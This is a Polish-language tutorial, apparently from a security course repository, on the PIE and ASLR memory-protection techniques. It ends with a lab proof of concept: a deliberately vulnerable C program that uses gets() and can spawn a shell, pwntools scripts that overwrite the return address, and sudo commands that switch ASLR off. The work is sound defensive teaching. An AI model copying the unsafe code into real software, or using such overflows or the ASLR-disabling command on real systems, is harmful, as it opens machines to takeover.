








# 1. ASLR & PIE

Techniki obrony ASLR i PIE są ze sobą sciśle powiązane, dlatego ich omówienie znajduję się w jednym pliku.

### 1.1 PIE

PIE (Position indepented executable) - jest to sposób kompilacji kodu w taki sposób, że jest on niezależny od pozycji w pamięci.

Można to zobaczyć disassemblując plik kompilowany bez i z PIE. 

W przypadku pliku bez PIE adresy są zapisane w kodzie. 



W przypadku pliku z PIE liczone są offsety.



Widzimy to w callach.

Wpływ PIE na performance aplikacji jest dość duży. Biorąc za przykład architekturę 32bitową domyślnym zachowaniem kompilatora jest zarezerwowanie rejestru `ebx` jako adresu przetrzymującego adres tablicy GOT z której otrzymywane są pozostałe adresy. To generuje spadek performance'u - musimy ustalać adresy pośrednio.

Generuje to sporo problemów. Zostaje nam odebrany jeden rejestr do używania w trakcie realizacji programu. Dodatkowo rejestr `ebx` używany jest jako rejestr, w którym znajdują się argumenty w syscall'ach. Przez to przekazywanie argumentów jest skompliowane i wymaga dodatkowych instrukcji `push pop`.

Badania mówią o średnio 10% spadku wydajności. Maksymalnie do 25%. 

PIE pozwala na lepsze użycie ASLR.

### 1.2 ASLR

ASLR (Address space layout randomization) - to technika polegająca na losowym umieszczeniu sekcji programu, aby uniemożliwić
skakanie do danych sekcji. Jest to dość duże utrudnienie w atakach binarnych. W dużej cześci ataków oznacza to po prostu zgadywanie danej wartości do skutku.

ASLR najlepiej stosować na kodzie skompilowanym z PIE, wtedy możemy załadować kod i PLT do losowych adresów, w przeciwnym razie kod i PLT jest statyczny, a losowość dotyczy jedynie bibliotek, stosu oraz sterty.

Samo ASLR może okazać się pomocne w obronie przed atakami na wykonywalny stos - wtedy skok na taki stos nie jest prosty, bo jego adres jest losowy. Jest to też dobra obrona przed atakami typu ROP oraz ret2libc.

ASLR utrudnia ataki polegające na liczeniu offsetu, lub pozycji danych w pamięci. Na architekturze 32bit losowość jest dość mała, więc przestrzeń adresową da się obejść atakiem siłowym. Jednak w przypadku 64 bit jest to już spory problem.

Ważny aspektem ASLR jest także entropia samego losowania, która powinna być jak największa dla większego bezpieczeństwa.

##### Przykład:

Ten sam kod uruchomiony dwa razy ma inna przestrzeń adresową.






Główna róznica pomiedzy implementacją Linuxową i Windowsową jest to, że w Linuxie jest to opcja compile-time, a w Windowsie link-time.

W Linuxie ASLR jest implementowane w kernelu. Na linuxie ASLR ma wpływ na performance przez to, że binarki obsługujące ASLR muszą być kompilowane z PIE (Position Independent Executable), co prowadzi nawet do 25% gorszego performance'u na 32bit x86. 

Na Windowsie ASLR jest włączany poprzez linkowanie z opcja `/DYNAMICBASE`. Na windowsie wpływ na performance run-time jest raczej niewielki, ale ASLR może spowolnić ładowanie modułów.

### 1.3 Proof of Concept - sterowanie wykonaniem programu bez randomizacji - atak na ASLR

Exploit nie używa wykonalnego stosu.

Przed wykonaniem tego exploitu wyłączyłem ASLR w swoim systemie. Odbywa się to za pomocą ustawienia flagi w systemie.

Można to zrobić np. tak `echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space`.

Aby ASLR włączyć na nowo należy ustawić flagę na 2 - ``echo "2" | sudo dd of=/proc/sys/kernel/randomize_va_space``.

Kod programu, który bedzie exploitować jest następujący:

```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -z execstack -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void secret() {
system("sh");
}

void ask_for_name()
{
char name[12] = {0};
puts("What's your name?");
gets(name);
printf("Hi %s!\n", name);
}

int main()
{
ask_for_name();
return 0;
}
```

Chcę wywołać funkcję secret spawnującą shella. Aby to zrobić chce nadpisać adres powrotu funkcji `ask_for_name()` na właśnie tą funkcje.

Na początku staram się otrzymać lokalizacje rejestru `eip` przesyłając do ofiary duży string z podłączonym debuggerem.


```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO"

p.sendline(name)
```




W rejestr `eip` trafiła litera G. Co pozwala mi ustalić miejsce, w które wstrzykne adres funkcji secret().

Adres funkcji `secret()` uzyskam używając gdb.



Adres ten muszę też przekształcić do little endian.


```python
from pwn import *

p = process("./vuln.o")

name = b'AAAABBBBCCCCDDDDEEEEFFFF'
name += b'\xc9\x61\x55\x56'

p.sendline(name)
```

W tym momencie exploit powinien działać i wywoływać funkcję secret.



Exploit działa jeśli flaga od ASLR jest ustawiona na 0.

W momencie ustawienia jej na 2 exploit nie działa - adres, który nadpisuję nie jest adresem funkcji `secret`. Program został załadowany pod inny adres.



Adres, który wywołuje `eip` jest losowym adresem, więc wykonanie konczy się `SIGSEGV`, bo program chciał odnieść się do zabronionej dla niego pamięci.

Warto dodać, że w przypadku wykonania exploitu na programie kompilowanym z PIE, ale z wyłączonym ASLR - exploit działa. Samo PIE bez ASLR jest jedynie sposobem kompilacji.